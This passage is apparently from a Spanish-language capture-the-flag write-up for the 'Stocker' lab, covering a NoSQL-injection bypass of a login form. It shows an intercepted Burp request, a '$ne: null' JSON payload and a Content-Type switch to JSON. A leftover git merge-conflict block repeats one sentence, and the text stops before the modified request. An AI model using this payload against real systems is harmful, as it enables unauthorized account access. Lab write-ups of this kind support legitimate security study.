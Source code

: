 <<<<<<< HEAD
Podemos ver que tenemos un login, intenté bypasear el login comprobando si es vulnerable a los ataques sqli pero no tuve resultados, después de muchos intentos con 
=======
Podemos ver que tenemos un login, intenté bypasear el login comprobando si es vulnerable a los ataques sqli pero no tuve resultados, después de muchos intento con 
>>>>>>> 4270167b71d3655c262cc0720180d0fdb326a150
BurpSuite me di cuenta que puedo cambiar las peticiones para causar ataques NoSqli

Al interceptar por BurpSuite nos muestra esto
```bash

POST /login HTTP/1.1

Host: dev.stocker.htb

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Content-Type: application/x-www-form-urlencoded

Content-Length: 29

Origin: http://dev.stocker.htb

Connection: close

Referer: http://dev.stocker.htb/login

Cookie: connect.sid=s%3AeehRhX_wEYQcXzjWxltuGkOJ0T8tYaa_.iO7JxTfBZdxcPOUdjeU3uGBLRc9P4jRifl0bGfz0Jx8

Upgrade-Insecure-Requests: 1


username=admin&password=admin
```
 
Ahora para hacer el ataque NoSqli tenemos que ejecutar donde está el apartado username=admin.... con este script

```bash
{"username": {"$ne": null}, "password": {"$ne": null} }

```
Pero antes donde dice content-Type tenemos que poner esto

```bash
application/json
```
Y nos quedaría algo así 
